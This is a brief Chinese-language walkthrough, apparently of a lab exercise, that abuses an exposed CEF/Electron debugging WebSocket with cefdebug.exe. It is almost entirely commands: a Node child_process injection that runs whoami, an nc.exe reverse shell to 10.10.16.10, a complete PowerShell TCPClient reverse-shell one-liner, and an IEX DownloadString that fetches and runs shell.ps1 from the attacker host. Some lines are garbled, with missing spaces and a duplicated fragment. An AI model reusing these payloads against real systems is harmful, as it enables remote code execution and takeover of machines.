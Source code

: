 [![](assets/1705974590-cb4340077363d0e8b6041620b648f023.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223440-36141d26-b86a-1.png)

## CEF 调试

```bash
\cefdebug.exe--code"process.version"--url ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052
.\cefdebug --code"process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\x')"  ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052a-b0
1a-629102094b
```

使用 cefdebug.exe 来进行调试。

[![](assets/1705974590-852a25d9f121487deeb8196341010c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223530-53de15d2-b86a-1.png)

```bash
.\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.10 443 -e cmd')"--urlws://127.0.0.1:60404/830$client = New-Object 
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.10',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

.\cefdebug.exe --url ws://127.0.0.1:38802/8dcd4ac7-49f5-4652-9c95-3f0d7766ffc7 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.10/shell.ps1\')')"
```
